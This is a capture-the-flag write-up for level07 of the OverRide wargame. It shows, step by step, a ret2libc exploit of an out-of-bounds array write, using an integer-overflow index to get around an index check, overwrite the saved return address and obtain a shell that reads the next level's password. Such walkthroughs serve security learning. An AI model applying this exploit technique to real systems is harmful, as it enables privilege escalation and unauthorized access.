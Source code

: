 Level07 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level07/level07
```

Level07 rights:
```Shell
-rwsr-s---+ 1 level08 users   11744 Sep 10  2016 level07
```

Testing the binary:
```Shell
level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store 
 Number: 111
 Index: 1
 Completed store command successfully
Input command: read
 Index: 1
 Number at data[1] is 111
 Completed read command successfully
 Input command: store
 Number: -1
 Index: 2
 Completed store command successfully
Input command: read
 Index: 2
 Number at data[2] is 4294967295
```
The program allows us to store numbers in an array and display them if wanted.

Decompiling with Hex-Rays on https://dogbolt.org/ shows us that:
- there is an array of unsigned int of 100 elements
- the index provided by the user is used without checking if it exceeds the size of the array
- you cannot store numbers at any index that is a multiple of 3. 

We can't do a format string attack nor a buffer overflow, so our only way to exploit the binary is to use the `store` command to write on the stack. The vulnerability lies in the fact that you can store values outside the array. Our goal is to do a `ret2libc` attack by finding `EIP` and overwrite it with `system()`.

We will first retrieve the addresses of `system()`, `exit()` and `/bin/sh`:
```Shell
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find &system, +9999999, "/bin/sh"
0xf7f897ec
```

Since the program only deals with decimal numbers, we must convert the addresses from hexa to decimal:
```
system: 0xf7e6aed0 -> 4159090384
exit: 0xf7e5eb70 -> 4159040368
/bin/sh: 0xf7f897ec -> 4160264172
```

Now, we need to know at which index we should store the address of `system()`. Using `gdb-peda`, we found the offset between `EIP` and the beginning of our array by placing a breakpoint right after the call to `read()` and inspect the values:
```Shell
Guessed arguments:
arg[0]: 0xffffcdf4 --> 0x0 
[...]
gdb-peda$ info frame
[...]
 Saved registers:
[...]
  eip at 0xffffcfbc
```

`0xffffcdf4` is the address of the start of the array. `0xffffcfbc` is the address of `EIP`. Subtracting the address of the array from `EIP` give us an offset of 456 bytes (0xffffcfbc - 0xffffcdf4).
This is an array of `int` so each element has a size of 4 bytes. If we do 456 / 4, we get `114`, which corresponds to the index we must access. 
First, let's run a check to see if we have the correct value:
```Shell
Input command: store
 Number: 258
 Index: 114
 *** ERROR! ***
   This index is reserved for wil!
 *** ERROR! ***
 Failed to do store command
 ```
We can't use the 114th index because it's a multiple of 3. But perhaps overflowing the int could allow us to reach 114 anyway. The program multiplies the index by 4, so if we use `MAX_UINT_32 / 4` and add 114, we get `1073741938`, which is the same as 114.

Now, for testing purposes, let's try to change `EIP` by '0xaaaaaaaa' (2863311530 in decimal):
```Shell
Input command: store
 Number: 2863311530
 Index: 1073741938
 Completed store command successfully
Input command: read
 Index: 114
 Number at data[114] is 2863311530
 Completed read command successfully
Input command: quit

Program received signal SIGSEGV, Segmentation fault.
0xaaaaaaaa in ?? ()
```
It seems to work!
Therefore storing `system()`, `exit()` and `/bin/sh` addresses at indices 114, 115, 116 should open a terminal.

Here is the result:
```Shell
Input command: store
 Number: 4159090384                           // system()
 Index: 1073741938                            // index 114
 Completed store command successfully         
Input command: store
 Number: 4159040368                           // exit()
 Index: 115
 Completed store command successfully           
Input command: store
 Number: 4160264172                           // /bin/sh
 Index: 116
 Completed store command successfully
Input command: quit
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```